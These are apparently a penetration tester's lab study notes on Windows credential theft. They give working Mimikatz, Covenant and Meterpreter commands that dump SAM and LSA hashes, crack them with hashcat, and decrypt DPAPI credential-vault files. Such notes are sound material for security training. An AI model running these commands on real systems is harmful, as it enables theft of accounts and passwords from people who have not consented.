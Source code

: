 # workstation dominance

## dumping hashes with covenant and mimikatz

On a high-integrity grunt:

```
mimikatz token::elevate lsadump::secrets
```

```
mimikatz token::elevate lsadump::sam
```

Covenant stores the hashes in the "Data" section.

## dumping hashes with metasploit

View current user privileges:

```
meterpreter > run post/windows/gather/win_privs
```

GetSystem

```
meterpreter > getsystem
```

Use hashdump

```
meterpreter > hashdump
```

If you see a `089c0` at the end of the hashes, they are most likely DISABLED

```
meterpreter > load kiwi
```

view Mimikatz help

```
meterpreter > help
```

Various stuff you can do...

```
meterpreter > creds_all
```

```
meterpreter > lsa_dump_sam
```

```
meterpreter > lsa_dump_secrets
```

## cracking hashes with `hashcat`

view hash-modes on website...

https://hashcat.net/hashcat/

https://github.com/NotSoSecure/password_cracking_rules

On Windows:

```
hashcat.exe -a 0 -m 1000 <hash> -r OneRuleToRuleThemAll.rule rockyou.txt
```

## cracking credential vault with covenant

On a medium integrity grunt:

```
mimikatz vault::cred
```

```
ls C:\Users\s.chisholm.mayorsec\AppData\Local\Microsoft\Credentials
```

Smallest size - the one we wanna use. Take note of that hash.

grunt > task > mimikatz

command:

```
"dpapi::cred /in:C:\Users\s.chisholm.mayorsec\AppData\Local\Microsoft\Credentials\<hash>"
```

Take note of guidMasterKey.

```
ls C:\users\s.chisholm.mayorsec\AppData\Roaming\Microsoft\Protect
```

Look for SID value. Take note of the value.

```
ls C:\users\s.chisholm.mayorsec\AppData\Roaming\Microsoft\Protect\<SID-value>
```

look for the entry with the same GUID value. Copy the whole directory

```
"dpapi::masterkey /in:C:\users\s.chisholm.mayorsec\AppData\Roaming\Microsoft\Protect\<SID-value> /rpc"
```

Get the key... save to notepad.

Go back to task...

```
"dpapi::cred /in:C:\Users\s.chisholm.mayorsec\AppData\Local\Microsoft\Credentials\<hash> /masterkey <key>"
```

## cracking credential vault with covenant





